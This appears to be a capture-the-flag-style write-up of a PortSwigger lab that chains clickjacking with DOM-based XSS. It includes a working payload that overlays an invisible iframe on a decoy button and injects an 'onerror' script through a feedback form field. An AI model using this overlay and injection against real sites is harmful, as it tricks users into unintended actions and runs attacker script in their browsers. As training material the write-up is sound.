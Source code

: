 # Exploiting clickjacking vulnerability to trigger DOM-based XSS

## Description

[This lab](https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss) contains an XSS vulnerability that is triggered by a click. 

## Reproduction and proof of concept

1. Log in to the `wiener` account on the target website and find vuln.

![Clickjacking](../../_static/images/clickjacking5.png)
![Clickjacking](../../_static/images/clickjacking6.png)
![Clickjacking](../../_static/images/clickjacking7.png)

2. Create payload:

* The iframe `src` URL points to the target website vulnerable page. In this case, the `/feedback` page, and depends on the unique `lab-id`.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `$top_value` and `$side_value` values of resp `610px` and `80px` to align the "Submit feedback" button with the "Test me" decoy action.

```text
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe src="lab-id.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, adjust the position of the div element by modifying the `top` and `left` properties of the style sheet. 
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.

![Clickjacking](../../_static/images/clickjacking8.png)

6. **Deliver exploit to victim**

## Exploitability

An attacker needs to construct a clickjacking attack that fools the user into clicking the "Click me" button to call the `print()` function.  _Note: The victim will be using Chrome so test your exploit on that browser._
